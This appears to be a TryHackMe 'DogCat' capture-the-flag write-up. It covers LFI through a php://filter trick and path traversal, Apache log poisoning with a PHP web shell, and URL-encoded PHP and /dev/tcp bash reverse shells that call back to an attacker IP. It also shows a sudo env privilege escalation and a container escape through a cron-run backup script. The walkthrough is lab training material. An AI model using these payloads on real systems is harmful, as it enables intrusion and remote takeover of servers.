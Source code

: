 ```yaml
---
title: DogCat TryHackMe -- Writeup
date: 2022-04-06
categories: [TryHackMe, Medium]
tags: [docker, priv-esc, linux, ctf, lfi]     # TAG names should always be lowercase
---
```


Exporting the ip, hate typing it over again.
`import ip=10.10.106.83`

### Enumeration
We got 2 open port, 22(ssh), 80(apache). fair enough lets see whats in 80

```bash
PORT   STATE SERVICE
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:B3:94:18:A1:5F (Unknown)
```

navigating to `http://10.10.106.83` give us this page, where we can click at either cat/dog.<br>
![img](/assets/img/tryhackme/dogcat/dogcat_landing.png)

```bash
cat: http://10.10.106.83/?view=cat
dog: http://10.10.106.83/?view=dog
```

Looking at `?view=..` The first thing come to my mind is Local file inclusion (LFI). so i try including dog: `http://10.10.106.83/?view=../../../../etc/passwd` but urgh it complains only dogs/cats pic allowed. So now what i need todo is essentially read the index.php file to see what happend under the hood.
What i basically end up doing is converting the file to base64, parse it and then decode it to normal text.

`"?view=php://filter/read=convert.base64-encode/resource=./dog/../index"`

```php
 <?php
    function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
    }
    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
    if(isset($_GET['view'])) {
        if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
            echo 'Here you go!';
            include $_GET['view'] . $ext;
        } else {
            echo 'Sorry, only dogs or cats are allowed.';
        }
    }
?>
```
Looking at the source, we know exactly what todo now. I tried again to include passwd file now i modify it to `'http://10.10.106.83/?view=./cat/../../../../etc/passwd&ext='`

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
Now what next lmao. I can include files but still not enough. i need Remote code Execution (rce). A simple google search helped me out i found this [link](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1).
Next i try reading `/var/log/apache2/access.log` to see if i can use log poisoning. AND BOOM I CAN. Now only left is crafting payload to get a shell.

First request. this allow us to use the `cmd` parameter later to execute any php code.
```bash
nc $ip 80
GET /<?php system($_GET['cmd']);?>
```
Next is searching php reverse shell, i use [this]() onliner shell. then urlencode it.

```php
php -r '$sock=fsockopen("<YOURIP>",<PORT>);exec("/bin/bash -i <&3 >&3 2>&3");'
php%20-r%20%27%24sock%3Dfsockopen(%22<YOURIP>%22%2C<PORT>)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```
Final payload
```
http://10.10.156.55/?view=./cat/../../../../var/log/apache2/access.log&ext=&cmd=php%20-r%20%27%24sock%3Dfsockopen(%2210.10.39.132%22%2C4444)%3Bexec(%22%2Fbin%2Fbash%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B%27
```

### Searching for flags.

```bash
flag1: can be found /var/www/html/flag.php THM{Th1s_1s_N0t_4_Catdog_*********}
flag2: can be found /var/www HM{LF1_t0_RC3_******}
```

### priv esc
```
User www-data may run the following commands on 005c9764143d:
    (root) NOPASSWD: /usr/bin/env
```
Well, thats kinda ez priv esc.
`sudo /usr/bin/env /bin/bash -p` Now we root <br>`flag3: can be found /root/ THM{D1ff3r3nt_3nv1ronments_*******}`

what... so where tf is flag4?. 

### escaping container
So i figure it out, we're inside a container. Now our job is to somehow runaway from here.
Looking at the backup files in /opt/backup i notice something. the file backup.sh is older than backup.tar `probably some cron job on the host running the script` so what i did is replace the backup.sh content with a reverse shell hoping that the cron job run it. So i can get a shell on the host.

```bash
echo '#!/bin/bash' > backup.sh
echo '/bin/bash -i >& /dev/tcp/10.10.39.132/4445 0>&1' >> backup.sh
chmod +x backup.sh

attacker: nc -nlvp 4445
```
Oh nice it works<br> `flag4: THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_**************************}`

thanks for reading, i hope this helps :)
